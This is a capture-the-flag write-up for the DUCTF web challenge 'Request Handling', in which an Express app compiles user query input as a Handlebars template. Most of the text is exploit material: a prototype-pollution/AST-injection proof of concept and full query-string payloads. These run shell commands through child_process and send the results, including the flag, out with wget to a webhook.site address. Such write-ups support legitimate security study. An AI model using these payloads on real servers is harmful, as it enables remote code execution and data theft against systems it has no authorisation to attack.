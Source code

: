 # 🏷️ Request Handling

**Category:** Web  
**Description:**  
> They patched Handlebars SSTI, there's nothing to worry about.

-----
In this challenge we are just given a Dockerfile

```Dockerfile
FROM alpine:latest AS flag-builder

WORKDIR /build
RUN apk add gcc musl-dev
RUN cat <<EOF > getflag.c
#include <stdio.h>
int main() {
    printf("DUCTF{test_flag}\n");
}
EOF
RUN gcc -static getflag.c -o getflag

FROM node:22-alpine

WORKDIR /app
RUN npm init -y && npm install express@4 handlebars

RUN cat <<EOF > app.js
const express = require("express");
const Handlebars = require("handlebars");
const app = express();

app.get('/', (req, res) => {
    res.send(Handlebars.compile(req.query.x)({}));
});

app.listen(8000, () => console.log('App listening'));
EOF

COPY --from=flag-builder /build/getflag /getflag
RUN chmod 111 /getflag

EXPOSE 8000

USER node
CMD node app.js
```
<br />

<img src="https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/Request%20Handling/images/skeleton.gif?raw=true" alt="Skeleton GIF" width="300" height="300">

<br />

The only thing we have to focus on was `res.send(Handlebars.compile(req.query.x)({}));`

googling about handlebars the only thing that came out was prototype pollution with some AST stuff.

Example : 

```js
pay= {
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`bash -c 'pwd'`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
})
```
<br />
POC found : 

```js
const Handlebars = require('handlebars');

Object.prototype.type = 'Program';
Object.prototype.body = [{
    "type": "MustacheStatement",
    "path": 0,
    "params": [{
        "type": "NumberLiteral",
        "value": "console.log(process.mainModule.require('child_process').execSync('id').toString())"
    }],
    "loc": {
        "start": 0,
        "end": 0
    }
}];

const source = `Hello {{ msg }}`;
const template = Handlebars.compile(source);

console.log(template({"msg":"Hello!!!"}))
```
<br />

After trying out some ways to find a working payload with my teamate found this one : 

```
?x[type]=Program&x[body][0][type]=MustacheStatement&x[body][0][path]=0&x[body][0][params][0][type]=NumberLiteral&x[body][0][params][0][value]=console.log(process.mainModule.require('child_process').execSync('wget https://webhook.site/37831a21-e1d2-41dd-877c-1ee211a79adc?c=$(whoami)').toString())&x[body][0][loc][start]=0&x[body][0][loc][end]=0
```

And i got a call back



Getting the flag : 
```
?x[type]=Program&x[body][0][type]=MustacheStatement&x[body][0][path]=0&x[body][0][params][0][type]=NumberLiteral&x[body][0][params][0][value]=console.log(process.mainModule.require('child_process').execSync('wget https://webhook.site/37831a21-e1d2-41dd-877c-1ee211a79adc?c=$(../getflag|base64)').toString())&x[body][0][loc][start]=0&x[body][0][loc][end]=0
```

FLAG : 
```
DUCTF{35116296c07966e5f645dac55a0fe81c}
```


